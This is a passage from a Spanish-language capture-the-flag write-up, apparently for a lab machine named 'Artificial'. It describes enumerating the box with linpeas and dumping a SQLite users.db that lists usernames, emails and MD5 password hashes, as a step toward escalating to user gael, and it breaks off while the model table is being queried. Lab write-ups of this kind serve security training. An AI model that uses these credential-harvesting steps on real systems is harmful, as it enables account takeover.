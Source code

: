 ## Escalate user gael

Si investigamos bastante utilizando `linpeas.sh` para enumerar el sistema, veremos un archivo interesantes en la siguiente ruta llamado`users.db`.

```
RUTA = /home/app/app/instance/users.db
```

Si entramos a dicho archivo para enumerarlo con `sqlite3` veremos lo siguiente:

```shell
sqlite3 /home/app/app/instance/users.db
```

Vamos a ver las tablas que hay:

```sql
.tables
```

Info:

```
model  user
```

Vamos a enumerar las `2` de esta forma:

> user

```sql
SELECT * FROM user;
```

Info:

```
1|gael|gael@artificial.htb|c99175974b6e192936d97224638a34f8
2|mark|mark@artificial.htb|0f3d8c76530022670f1c6029eed09ccb
3|robert|robert@artificial.htb|b606c5f5136170f15444251665638b36
4|royer|royer@artificial.htb|bc25b1f80f544c0ab451c02a3dca9fc6
5|mary|mary@artificial.htb|bf041041e57f1aff3be7ea1abd6129d0
6|test@test.local|test@test.local|afdd0b4ad2ec172c586e2150770fbf9e
7|diseo|diseo@artificial.htb|875c9b3974555fa3eecee201d04398ca
8|adam|adam@adam.fr|1d7c2923c1684726dc23d2901c4d8157
9|test|test@test.mail|098f6bcd4621d373cade4e832627b4f6
10|admin|admin@admin.com|21232f297a57a5a743894a0e4a801fc3
11|fox|fox@fox.fox|2168ad5e463d9accb215edaafa31c8d9
12|anas|anas@gmail.com|76eb649c047cbecad7c36e71374bc9a5
```

> model

```sql
SELECT * FROM model;
```

Info:
